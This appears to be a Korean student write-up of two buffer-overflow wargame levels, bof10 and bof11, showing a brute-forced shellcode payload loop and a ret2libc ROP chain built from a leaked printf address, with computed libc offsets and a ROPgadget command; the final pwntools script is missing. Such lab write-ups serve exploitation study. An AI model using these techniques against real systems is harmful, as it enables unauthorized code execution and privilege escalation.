



# bof10

bof10은 다음과 같다.


이전, 8번을하는데 SHELLCODE의 주소가 변칙적으로 바뀌기 떄문에 `8번 + brute force`로 풀 수가 있다.

8번을 기억한다면 SHELLCODE 에 우리가 원하는 shellcode(bin/sh을 실행시키는 코드)를 넣어주고 페이로드를 다음과 같이 작성하면 된다

```bash
./bof8 `python -c "print 'x' * (buf to ret 거리) + (SHELLCODE 주소)"` 
```
1. buf to ret의 거리는 이전에 항상 하던거 처럼 main 처음에 들어갔을 때의 rdi 와 strcpy가 끝났을 때의 ebx의 거리를 찾으면 된다.



bof10에서는 20이 결과값으로 나왔다.

2. 두번째로 SHELLCODE의 주소는 한번 실행시켜서 나온 결과를 쓴다. 그 대신 SHELLCODE에 가능한 많은 NOP 문자를 넣어 SHELLCODE에 접근하는 확률을 높힌다.
    1. While 혹은 for 반복문을 통해 무한 루프를 돌면서 shell을 실행시킬때까지 돌린다.


위를 정리해서 다시 bof10 의 페이로드를 작성한다면
```bash
for((;;)); do ; ./bof10 `python -c "print 'x' * 20 + '\x41\xb8\x91\xff'"` ; done 
```


다음과 같이 여러번 반복후에 `hit` 되는 것을 볼 수 있다.



# bof11

bof11은 다음과 같다.


다음 코드에서는 `fgets()` 함수가 음수를 `string size`로 받기 때문에 `overflow`취약점이 생긴다.

ASLR와 NX bit가 걸려 있으니
(아래 사진에서 stack에 execute 권한이 없는 것을 확인 할 수 있다.)


`bof10`번과 `bof9`번을 풀었을 때 활용한 스킬을 활용하면 뚫을 수 있을 것 이다.

`bof9`을 기억하면 우리가 다음과 같은 방식으로 문제를 풀었다.
<div style="border:2px solid black;">

|Origianl 스택 구조| Hacked 스택 구조|
|--|---|
|main stack 끝부분 + 8 |system 함수의 주소|
|main stack 끝부분 |/bin/sh 문자열의 주소|
|return address가 담긴 곳|`pop rdi, ret`가 담긴 libc의 주소|
|vuln stack 시작부분|쓰레기값|
|buf|쓰레기값|

이제 이걸 하려면 다음을 알아야한다.
1. `system`함수의 주소,
1. `"/bin/sh"` 문자열의 주소
1. `pop rdi, ret`가 담긴 libc의 주소
1. buf에서 return address까지의 거리

</div>

하지만 ASLR이 켜져있기 때문에 주소를 알아내는 방식이 조금 달라진다.

우선 이 문제에서는 또 하나의 취약점이 존재하는데, `printf()`를 참조하는 주소의 위치를 알려준다. 이를 `Memory leak`이라고 한다.

printf() 함수의 주소를 안다면 우리는 다른 libc 함수인 system의 주소도 알 수 있다. 왜냐하면 libc 내에서의 상대적인 주소는 일정하기 때문이다.

일단 printf가 어떠한 라이브러리를 참조하는지 보자.


주소를 보면 `/tmp/2.23/lib/libc.so.6` 을 참조 하는 것을 확인 할 수 있다.

`printf`에서 `system`과의 상대거리는 다음과 같이 찾아낼 수 있다.


1. ~~`system`함수의 주소,~~ **printf() + 66672**
1. `"/bin/sh"` 문자열의 주소
1. `pop rdi, ret`가 담긴 libc의 주소
1. buf에서 return address까지의 거리

이제 `/bin/sh`의 문자열을 찾자 하지만 이번에는 문자열이 `bof11.c`에서 주어지지 않는다. 이것을 프로그램 어딘가 에서 찾아야하는데 이는 gdb에서 grep을 사용하여 찾을 수 있다.


printf 에서의 offset 을 구하면 다음과 같이 나온다.


2. ~~`"/bin/sh"` 문자열의 주소~~ **printf() + (-1275224)**

가 되었다.

마찬가지로 `pop rdi, ret` 의 주소도 `printf`의 상대주소로 찾는다.
```bash
ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep "pop rdi ; ret"
```


```armasm
printf_address + x = rdi_address
x = rdi_address - printf_address
x = (libc + libc_rdi_offset) - (libc + libc_printf_offset)
x = (0x21102 - 0x55800)
x = -(0x346fe) = -214782
```


위의 공식을 활용하면 
`pop rdi, ret` 의 주소를 printf()의 offset으로 나타낸 주소를 찾을 수 있다.

3. ~~`pop rdi, ret`가 담긴 libc의 주소~~ **printf() + (-214782)**

4. buf에서 return address까지의 거리

4번은 매우 repetitive하기 때문에 건너 뛰겠다. 값은 18이 나왔다.


이제 이것을 pwntool을 사용하여 payload를 만들어 해킹하면 된다.

python code는 가음과 같다.


설명을 조금 하자면
 
`p.recvuntil()`은 그 만큼 값을 받으라는 뜻이다. 이것을 이용해서 값을 받아 저장할 수도 있다.
`p.interactive()`는 이전에 무한루프로 반복적으로 값을 넣는 것을 해주는 함수다.
`p.send(payload)`는 전송할 문자열을 받아 프로그램에 넣는다.

결과는 다음처럼 bof12의 권한을 얻은것을 확인 할 수 있다.


## 참조
-  https://lclang.tistory.com/82